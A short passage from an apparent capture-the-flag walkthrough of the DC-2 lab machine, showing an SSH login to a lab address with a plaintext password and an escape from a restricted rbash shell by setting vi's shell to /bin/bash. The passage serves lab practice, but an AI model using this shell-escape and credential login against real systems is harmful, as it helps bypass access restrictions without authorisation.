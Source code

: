 ## Exploitation

ssh tom@192.168.122.185 -p 7744

*Password: parturient* 

id

cd 

![DC%202%208bb533798f654b0da4c7877bde040ba6/Untitled%207.png](DC%202%208bb533798f654b0da4c7877bde040ba6/Untitled%207.png)

*We got ssh shell but it is using rbash so first we need to escape rbash*

vi

:set shell=/bin/bash 

:shell

![DC%202%208bb533798f654b0da4c7877bde040ba6/Untitled%208.png](DC%202%208bb533798f654b0da4c7877bde040ba6/Untitled%208.png)

![DC%202%208bb533798f654b0da4c7877bde040ba6/Untitled%209.png](DC%202%208bb533798f654b0da4c7877bde040ba6/Untitled%209.png)
